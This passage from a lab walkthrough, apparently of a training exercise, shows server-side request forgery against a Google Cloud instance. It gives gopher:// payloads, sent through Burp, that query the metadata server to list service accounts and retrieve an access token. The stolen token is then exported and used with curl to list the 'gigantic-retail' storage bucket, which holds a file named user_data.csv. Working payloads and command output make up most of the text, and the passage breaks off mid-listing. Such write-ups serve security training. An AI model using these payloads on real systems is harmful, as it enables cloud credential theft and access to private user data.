 Let's open `Burp`. Intercept the request and modify the `url` parameter to the payload below that requests the URL `/computeMetadata/v1/instance/service-accounts/` to list the service accounts
```
gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
```

After sending request, we receive response with the custom service account named `bucketviewer@gr-proj-1.iam.gserviceaccount.com`

![](exploit-ssrf-with-gopher-for-gcp-initial-access-9.png)

Let's modify the payload to get an access token for the service account
```
gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/instance/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
```

We receive the token

![](exploit-ssrf-with-gopher-for-gcp-initial-access-10.png)

Copy the token

![](exploit-ssrf-with-gopher-for-gcp-initial-access-11.png)

Set the `GOOGLE_ACCESS_TOKEN` environment variable to make an authenticated requests to GCP API endpoints via curl
```
export GOOGLE_ACCESS_TOKEN=<token>
```

We can see that `gigantic-retail` bucket stores interesting file named user_data.csv 
```
└─$ curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://www.googleapis.com/storage/v1/b/gigantic-retail/o"
{
  "kind": "storage#objects",
  "items": [
    {
      "kind": "storage#object",
      "id": "gigantic-retail/images//1703694086172510",
      "selfLink": "https://www.googleapis.com/storage/v1/b/gigantic-retail/o/images%2F",
      "mediaLink": "https://www.googleapis.com/download/storage/v1/b/gigantic-retail/o/images%2F?generation=1703694086172510&alt=media",
      "name": "images/",
      "bucket": "gigantic-retail",
      "generation": "1703694086172510",
      "metageneration": "1",
      "contentType": "text/plain",
      "storageClass": "STANDARD",
      "size": "0",
      "md5Hash": "1B2M2Y8AsgTpgAmY7PhCfg==",
      "crc32c": "AAAAAA==",
      "etag": "CN7ev4aDsIMDEAE=",
      "temporaryHold": false,
      "eventBasedHold": false,
      "timeCreated": "2023-12-27T16:21:26.216Z",
      "updated": "2023-12-27T16:21:26.216Z",
      "timeStorageClassUpdated": "2023-12-27T16:21:26.216Z",
      "timeFinalized": "2023-12-27T16:21:26.216Z"
    },
<SNIP>
    {
      "kind": "storage#object",
```